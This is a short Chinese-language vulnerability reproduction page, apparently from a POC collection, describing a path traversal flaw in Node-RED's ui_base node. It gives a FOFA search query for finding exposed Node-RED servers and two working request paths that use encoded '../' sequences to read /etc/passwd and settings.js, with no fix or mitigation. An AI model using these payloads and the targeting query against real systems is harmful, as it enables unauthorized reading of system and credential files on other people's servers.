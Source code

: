 # Node-RED ui_base 任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

```
Node-RED
```

## FOFA

```
title="Node-RED"
```

## 漏洞复现

访问页面



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101928889.png)

验证POC



```plain
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101928013.png)



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101928766.png)